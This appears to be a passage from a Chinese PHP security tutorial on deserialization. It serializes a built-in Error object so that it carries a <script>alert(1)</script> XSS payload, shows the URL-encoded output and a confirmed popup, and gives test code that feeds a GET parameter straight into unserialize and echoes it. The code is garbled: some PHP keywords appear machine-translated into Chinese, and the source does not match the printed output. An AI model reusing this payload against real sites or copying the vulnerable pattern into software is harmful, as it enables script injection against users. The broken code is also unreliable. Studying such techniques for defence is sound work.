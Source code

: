     
    
      
    $a = new  Error ( "" );   
    $b = 序列化( $a );   
    echo urlencode( $b );    
    ?>  
      
    //输出：O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29% 3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi% 3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22% 3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D  
      
  
---|---  
  
`  
`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084240.png)`

`成功弹窗。`

## `异常√类`

  * `适用于php5、7版本`

  * `开启报错的情况下`

`测试代码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4  
    

|

    
    
      
    $a = unserialize( $_GET [ 'whoami' ]);   
    回声 $a ;   
    ?>   
      
  
---|---  
  
`  
`
